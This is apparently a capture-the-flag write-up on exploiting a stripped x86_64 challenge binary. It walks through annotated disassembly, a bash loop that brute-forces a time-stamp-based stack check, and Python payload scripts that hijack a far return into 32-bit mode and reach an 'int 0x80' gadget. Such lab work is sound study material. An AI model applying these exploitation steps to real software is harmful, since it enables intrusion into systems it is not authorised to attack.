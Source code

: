 We gonna take a crack at a meduim binary exploitation challenge by Touhami Kasbaoui.

This is the link for the binary:

http://tracker.0btemoslab.com/challenges/take-it-easy

![file](https://pouch.jumpshare.com/preview/zlejgyvYLyHjzNh9Ymf8nOJE5Y9XUyV811MVVYOBjty4jWyd9mBPAR97IEnHrzB9xQysGijYlM7l3EWEjMzh9TJprjKJn4snkOQIlHyX-Do)

As you can see, it's a stripped x86_64 ELF binary. Let's check the ELF header.

![readelf -h header](https://pouch.jumpshare.com/preview/BvNXIFjQp8f6YqGbVYaneC7wiItwdnqsmDoPnC9lQo2LDFrfY55bpSL4txKwahbLoNhnxBMJByu6RUbd6OsSyTJprjKJn4snkOQIlHyX-Do)

What we can learn from this, is that the entry point to this binary is at **0x400144**.

Let's execute the binary.

![./take-it-easy](https://pouch.jumpshare.com/preview/7MlrxrrC7lC1fLIyllR8XvdoDB-u6fFgxxlA0ec3_ifr268PTCZ_oX1v4Q1NpCUdR3Qj8xoD7q12d5iqTomIIBA1jQB_zmxltR5bgJ1-nls)

As you can see that the binary output "input" and read characters from the stdin, After that output "checkser" and read again. Let's use gdb to examine what's happening.

*NOTE: Remember that it is a stripped binary so no symbols are available, we need to break at the entry point address 0x400144*

![gdb take-it-easy](https://pouch.jumpshare.com/preview/bnDtseOR67PEK6j0LtLkudqvKTKEiLcTtURiqQ4-t0DN7SNmTUG5C9KRUe0AaiezR6DQnalSTy3EhLe3szKU4BA1jQB_zmxltR5bgJ1-nls)

You can use the gdb to go step by step with instructions and use ***i r*** to list the registers and examine there values.

[GDB-PEDA](https://github.com/longld/peda) is a great extension that will help you visualize the register and the stack more easily.

This is the instructions the binary contain:

```

   0x400144:	mov    rax,0x1
   0x40014b:	mov    rdi,0x1
   0x400152:	movabs rsi,0x6000000                ("input\n")
   0x40015c:	mov    rdx,0x6
   0x400163:	syscall                             write syscall  
   0x400165:	xor    rax,rax
   0x400168:	xor    rdi,rdi
   0x40016b:	movabs rbx,0x6000400
   0x400175:	mov    rsi,rbx
   0x400178:	mov    rdx,0x8                     reads 8Bytes
   0x40017f:	syscall                            read syscall
   0x400181:	rdtsc                              Read Time-Stamp Counter
   0x400183:	xor    rax,rdx                     XOR rax and rdx that contain the Time-Stamp
   0x400186:	mov    rdi,rbx
   0x400189:	mov    rcx,0x0
   0x400190:	mov    rdi,rbx                     --------------------------------------------
   0x400193:	add    rdi,rcx                       A loop that iterate on the buffer read 
   0x400196:	xor    BYTE PTR [rdi],al               before and perfome an xop operation
   0x400198:	inc    rcx                              on each byte and the al register
   0x40019b:	cmp    rcx,0x8
   0x40019f:	jl     0x400190                    --------------------------------------------
   0x4001a1:	mov    rax,QWORD PTR [rbx]
   0x4001a4:	push   rax                         Push the modified buffer to the stack
   0x4001a5:	sub    rsp,0x20                    Subtract the rsp pointer
   0x4001a9:	mov    rax,0x1
   0x4001b0:	mov    rdi,0x1
   0x4001b7:	movabs rsi,0x6000007               (checkser\n)
   0x4001c1:	mov    rdx,0xa
   0x4001c8:	syscall                            write syscall
   0x4001ca:	xor    rax,rax
   0x4001cd:	xor    rdi,rdi
   0x4001d0:	mov    rsi,rsp                     store the buffer read directly on the stack
   0x4001d3:	mov    rdx,0x100                   reads 256Bytes
   0x4001da:	syscall                            read syscall
   0x4001dc:	add    rsp,0x20                    restore the stack to it's original address wish mean 32Byte of out input is ignored
   0x4001e0:	mov    rdi,0x1
   0x4001e7:	mov    rsi,0x3
   0x4001ee:	mov    rdx,0x3
   0x4001f5:	mov    rcx,0x7
   0x4001fc:	cmp    rax,0x20                    If the buffer size read is less than or equal to 32Byte then the program exit
   0x400200:	jle    0x400214
   0x400202:	pop    r11                         pop the buffer from the stack
   0x400204:	xor    r11,QWORD PTR [rbx]         check if the buffer was tampred with
   0x400207:	jne    0x400214
   0x400209:	mov    QWORD PTR [rsp+0x8],0x23    set 0x23 at the rsp+0x8 wish will set the code segment at the return far
   0x400212:	retfq                              return far wish pop the instruction address and code segment from the top of the stack
   0x400214:	mov    rax,0x3c
   0x40021b:	mov    rbx,0x0
   0x400222:	syscall                            exit syscall

```

The main part that jumped out to me is the loop that modify the buffer we input using the Read Time-Stamp Counter.

[RDTSC](https://c9x.me/x86/html/file_module_x86_id_278.html)

Loads the current value of the processor's time-stamp counter into the EDX:EAX registers. The time-stamp counter is contained in a 64-bit MSR. The high-order 32 bits of the MSR are loaded into the EDX register, and the low-order 32 bits are loaded into the EAX register.

[x86_64 registers](https://wiki.osdev.org/CPU_Registers_x86-64)

![x86_64 registers](https://askcodez.com/images2/155807970253616.png)

[XOR](https://www.loginradius.com/blog/engineering/how-does-bitwise-xor-work/#:~:text=XOR%20is%20a%20bitwise%20operator,X)

![XOR](https://i.stack.imgur.com/qncwi.png)

Let's run the debugger and see if we can understand what's going on.

*I am going to provide an input of "AAAAAAAA".*

![gdb take-it-easy](https://pouch.jumpshare.com/preview/xZkkhLGGgCjy_l4-s9YEWNqvAuxNqR8NWdIN0Mgk9h6r-wn3395rj10n486AkehIYwo3AGyPdvSQKNUULLGFqzJprjKJn4snkOQIlHyX-Do)

As you can see our input got modified using the xor operation with the $al register wish is read from the time stamp counter. We have no control over the time stamp counter, but knowing the nature of CPU's the time stamp counter is geting incremented each second with an insane speed. 

The second read syscall allow us to store directly into the stack. Knowing that all we have to do is write the next instruction address to the stack and return far will pop it giving us control. But to write our address to the stack we need to overwrite the value pushed before, thus the program quit as it checks if the stack got tampred with.

```
   0x400204:	xor    r11,QWORD PTR [rbx]
   0x400207:	jne    0x400214
```

As said before the time stamp counter will be modified every time we execute the binary. We can brute force the time stamp counter by executing the binary in an infinite loop until one time the sanitization output will be the same as a value we set into the stack thus the check will pass allowing us to write out own address to the stack.

```
#!/bin/bash
while [ 1 ]
do
  echo "---------- starting ------------"
  ./take-it-easy < inputs > /dev/null # execute the binary and redirect stdout to /dev/null so the stdout won't be fludded
  if [ $? -eq 139 ] # check if the binary triggred a SEGV signal
  then
    break
  fi
  echo "---------- end ----------------"
done
```

*I am going to provide an input of "AAAAAAAAVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVV".*

![./exploit.sh](https://pouch.jumpshare.com/preview/7ve7SjqX_uPWYeujlAKeB3wbwPIqfKjQ2C9887EQyctySB8GCtLDMKzYH8nSNiNvOv0AQfWUmJzbl37Sgn2OTxA1jQB_zmxltR5bgJ1-nls)

The first buffer check is bypassed. Know let's inject an address to the stack and see if we can get control of the instruction pointer after the return far call.

*I am going to write to the stack the address of the write checkser address 0x4001a9. We are expecting to see checkser output two times*

```
fo = open("payload", "wb")

payload = b'A'*8 # the first input

payload += b'X'*40 # 0x20 the the stack get added with + 8 Bytes of the poped buffer

payload += b"\xa9\x01\x40\x00\x00\x00\x00\x00" # the address is inverted because of little endianness

fo.write(payload)

fo.close()
```

![./exploit.sh](https://pouch.jumpshare.com/preview/8c0RpMeHe5QjTQDLpHu9PncHxWIbsc4C4D9IzfH62G73FBk-rICMjSIjL4wKrWguiq5rWBkcjZp8NeZyfgmcfDJprjKJn4snkOQIlHyX-Do)

**No double checkser!? what's going on?**

We overlook something. return far does more than pop the instruction address from the stack, it also pop another byte to set the code segment register setting it with a value of 0x23. After the return far the code now is running on 32 bit mode. We can test that by loocking for 32 bit instruction and try to execute them.

```
   0x400214:	mov    rax,0x3c
```

After using a tool called ropper that look for gadgets in the binary, i found a gadget that call a system call. *int 0x80*

![ropper](https://pouch.jumpshare.com/preview/dYhIS75pQl2ijWxcym8Ky8KWzAQ77Skl22UrL8ArM7s00HL9VVjcNFuBG2wjmOK9wQbIzcOpD1Z6nKpdFClmKjJprjKJn4snkOQIlHyX-Do)

![gdb](https://pouch.jumpshare.com/preview/e6y-U3rpzjmLBjYdP8_ZcgQ1UpF6nJdfbWn2RX_qg8JUmNZBZ1x1-Hmulw2YiG1F8xPQiU4VEiHwy8nwRvV6zTJprjKJn4snkOQIlHyX-Do)

We can also controll the eax register because it was never reset after the last read syscall. Wish mean that the eax register will be set by the lenght of out last input. But it will be limited because we can't input a buffer less than 33 Byte plus the address of the gadget and the max is 256 Bytes.

```
   0x4001ca:	xor    rax,rax
   0x4001cd:	xor    rdi,rdi
   0x4001d0:	mov    rsi,rsp
   0x4001d3:	mov    rdx,0x100
   0x4001da:	syscall
```

[x86 syscall table](https://x86.syscall.sh/)

I am going to use olduname to test and run the binary using the debugger to examine the registers.
***For debugging i bypass the buffer check by setting rbx to the value of r11, set *((unsigned long *) 0x6000400)=$r11***

```
fo = open("payload", "wb")

payload = b'A'*8

payload += b'X'*40

payload += b"\x37\x01\x40\x00\x00\x00\x00\x00"

payload += b'A'*61

fo.write(payload)

fo.close()
```

![gdb](https://pouch.jumpshare.com/preview/AsHoOU5CT2iZHkvVBfqYQNFqH6CvdobkJByIPqsCOUnDXw942AAj4hVveVsUk2l-alTpIrR-BYGnczTHh_-m5BA1jQB_zmxltR5bgJ1-nls)

We can see that olduname got executed succesfully, and also we can see that the esp point to an invalid address because of the switch to 32bit mode.



